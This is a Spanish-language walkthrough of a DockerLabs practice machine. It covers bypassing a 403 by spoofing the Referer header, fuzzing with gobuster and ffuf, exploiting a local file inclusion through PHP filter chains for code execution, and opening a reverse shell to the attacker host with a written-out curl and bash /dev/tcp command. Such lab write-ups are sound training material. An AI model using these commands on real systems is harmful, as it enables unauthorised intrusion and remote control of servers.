***Jhair***
**IP**:  172.17.0.2
**Source:** DockeLabs
**Level:** Fácil
**Date:** 29 enero 2026
**Autor**:
**descripcion**: 


**Flags**:  


**Begin**:

---

Comenzamos haciendo un ping:

Hay conexión 
TTL: 64 -> Linux

Escaneo de Puertos abiertos TCP

Puertos abiertos: 
Puertos 80 (HTTP)

Escaneo de versión al puerto 80.



Accedemos a la pagina web

El servidor respondió con la página por defecto de Apache2

Pero vemos que un linea dice menciona a un nombre de dominio `bypass403.pw`


Nos dirigimos a aquel nombre de dominio

Y vemos que no nos deja acceder y que no tenemos permiso
Dado el nombre del dominio (`bypass403.pw`), el objetivo de este ejercicio es manipular la petición interceptada.

El objetivo es "engañarlo" para que piense que si tenemos permiso.
Con `burpsuite` capturamos la petición 


Vemos la petición se trata de una petición `GET`


Probé si control de acceso podría estar mal configurado y ver en las cabeceras HTTP manipulables por el cliente

Enviamos la petición al repeater

Comencé a inyectar cabeceras HTTP de forma iterativa para falsificar mi origen. - **Header Spoofing**

Y al inyectar la cabecera `Referer` busqué engañar a la lógica del servidor para que interpretara que mi solicitud de acceso provenía de un enlace interno y de confianza, en lugar de un acceso directo externo.
Y le añadimos un `close` a la peticion
`close`: No esperes nada más, procesa esto ya y corta la comunicación - **Match and Replace**
Match and Replace

Para no tener que interceptar cada petición y escribir `Referer: ...` a mano cada vez que haces clic en un enlace
Configuraste a Burp Suite como un "intermediario automático".
Proxy -> Proxy Settings -> Match and Replace rules


Ahora nos dirigimos a `bypass403.pw`


Realizamos un fuzzing de directorios.
```bash
gobuster dir -u http://bypass403.pw -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt,py,sh,log,js,zip -t 200 -H "Referer: http://bypass403.pw"
```
Usamos el flag `-H` para añadir la cabecera `Regerer`.

No encontramos nada

Asique probamos con un fuzzing de parámetros con `ffuf`
```bash
ffuf -u "http://bypass403.pw/index.php?FUZZ=1" -w "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt" -H "Referer: http://bypass403.pw" -fs 1192
```

Y encontramos el parámetro `pages`

Probamos si es vulnerable  aun vulnerabilidad de Local file inclusion

Y vemos que si es vulnerable a un LFI

Remote Code Execution via PHP Filter Chains

https://github.com/synacktiv/php_filter_chain_generator

Abusa de cómo PHP procesa los filtros (base64, rot13, iconv) para ir transformando un texto basura hasta convertirlo en el código PHP que uno quiera.



Reconocimiento y Validación

Generamos
```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
```

Verificamos
```
curl -H "Referer: http://bypass403.pw" "http://bypass403.pw/index.php?pages=PEGAR_CADENA_AQUI"
```

Generar el "Stager"
crear una cadena de filtros que, al ser interpretada por el servidor, escribe un pequeño código PHP en memoria.

Generamos


Verificamos
```bash
curl -H "Referer: http://bypass403.pw" "http://bypass403.pw/index.php?pages=PEGAR_CADENA_AQUI&cmd=id" --output -
```

Ejecutamos la reverse shell

Puerto de escucha
```bash
nc -nvlp 1337
```

Lanzamos:

```bash
curl -H "Referer: http://bypass403.pw" "http://bypass403.pw/index.php?pages=PEGAR_CADENA_AQUI&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F1337%200%3E%261%27" --output -
``` 















```bash
strings /usr/bin/furb
```


El binario tiene programada una opción -r que espera un argumento de archivo

La función read_file sugiere fuertemente que esta opción sirve para leer el contenido de un archivo.














